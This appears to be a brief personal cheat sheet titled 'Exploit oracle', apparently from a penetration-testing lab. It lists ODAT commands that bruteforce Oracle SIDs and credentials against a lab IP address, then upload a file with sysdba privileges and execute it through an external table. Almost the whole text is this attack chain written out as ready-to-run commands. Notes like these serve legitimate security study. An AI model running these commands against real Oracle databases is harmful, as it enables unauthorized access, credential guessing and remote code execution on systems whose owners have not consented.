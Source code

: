 # Exploit oracle
```
odat
```
## _sid bruteforce_
```
./odat-libc2.17-x86_64 sidguesser -s 10.129.95.188
```
## _creds bruteforces_
```
./odat-libc2.17-x86_64 passwordguesser -s 10.129.95.188 -p 1521 -d XE --accounts-file accounts/accounts.txt
```
## _upload file_
```
./odat-libc2.17-x86_64 utilfile -s **<targetIP>** --sysdba -d **<SID>** -U **<username>** -P <password> --putFile <remotePath> <remoteFilename> <localFilename>
```
## _execute file_
```
odat-libc2.17-x86_64 externaltable -s <targetIP> --sysdba -d <SID> -U <username> -P <password>  --exec <remotePath> <remoteFilename>
```

